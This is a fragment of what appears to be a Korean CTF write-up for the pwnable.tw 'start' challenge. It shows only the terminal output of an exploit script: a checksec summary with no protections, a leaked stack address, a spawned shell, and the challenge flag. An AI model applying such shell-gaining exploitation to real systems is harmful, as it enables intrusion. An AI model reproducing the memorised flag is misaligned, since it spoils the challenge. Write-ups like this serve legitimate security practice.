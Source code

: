 결과화면
--
```
seonaelee@ubuntu:~/Downloads$ python ex.py 
[+] Opening connection to chall.pwnable.tw on port 10000: Done
[*] '/home/seonaelee/Downloads/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
stack_addr @ 0xfffc5c30
[*] Switching to interactive mode
$ id
uid=1000(start) gid=1000(start) groups=1000(start)
$ cat /home/start/flag
FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}
```

  
  
